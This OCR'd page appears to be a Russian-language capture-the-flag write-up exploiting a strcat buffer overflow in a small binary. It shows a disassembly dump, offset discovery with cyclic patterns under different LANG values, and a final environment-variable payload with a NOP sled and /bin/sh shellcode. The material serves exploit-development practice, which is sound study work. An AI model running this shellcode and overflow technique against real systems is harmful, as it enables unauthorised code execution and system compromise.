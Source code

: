    0x08048501 <+125>:   movzwl 0xc(%edx),%edx               12
   0x08048505 <+129>:   mov    %dx,0xc(%eax)
   0x08048509 <+133>:   nop
   0x0804850a <+134>:   lea    0x8(%ebp),%eax               8        
   0x0804850d <+137>:   mov    %eax,0x4(%esp)               4
   0x08048511 <+141>:   lea    -0x48(%ebp),%eax             72
   0x08048514 <+144>:   mov    %eax,(%esp)
   0x08048517 <+147>:   call   0x8048370 <strcat@plt>
   0x0804851c <+152>:   lea    -0x48(%ebp),%eax             72
   0x0804851f <+155>:   mov    %eax,(%esp)
   0x08048522 <+158>:   call   0x8048390 <puts@plt>
   0x08048527 <+163>:   leave  
   0x08048528 <+164>:   ret    
End of assembler dump.

0x28 + 0x20
Аргументы также идут друг за другом.
Суть в том, что из-за того, что 1 строка = 40, а 2 = 32, мы не дойдем до офсета с дефолтным языком.

The strcat() and strncat() functions append a copy of the null-terminated string s2 to the end of the null-terminated string s1, then add a terminating `\0'.  The string s1 must have sufficient space to hold the result.

Попробуем сменить язык и найти оффсет.

# export LANG="nl"

# run $(python -c 'print "A" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A

0x38614137 = 8aA7 -> 23 оффсет

# export LANG="fi"

# run $(python -c 'print "A" * 40') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2A

0x41366141 = A6aA -> 18

Видим, что поменяв язык, наши дефолтные строки изменятся, соответственно, оффсет для fi = 18, для nl = 23.
Этого хватит для перезаписи адреса возврата.

Так как здесь нигде не вызывается шелл, систем или что-то подобное, необходимо будет вставить свой шеллкод.
Глобальная переменная будет хранить язык (так как сравнивается первые 2 буквы), затем ноп-коды и шеллкод.

# export LANG=$(python -c 'print("nl" + "\x90" * 150 + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80")')
